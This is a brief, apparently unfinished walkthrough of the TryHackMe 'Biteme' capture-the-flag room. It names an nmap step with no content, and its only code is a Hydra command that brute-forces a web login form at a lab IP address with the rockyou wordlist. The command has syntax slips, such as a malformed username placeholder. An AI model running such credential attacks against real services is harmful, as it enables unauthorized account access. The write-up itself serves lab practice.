 #   Tryhackme - Biteme
```
Walkthrough by:
Shaswata Saha
03-07-2023
10:00PM
```
1.  nmap



3.  Hydra on /console
```bash
hydra -l Documents/rockyou.txt  -P Documents/rockyou.txt 10.10.197.179 http-post-form "/login.php:username=^USERNAME&password=^PASS^&sub=Login:Invalid username or password." -I -v
```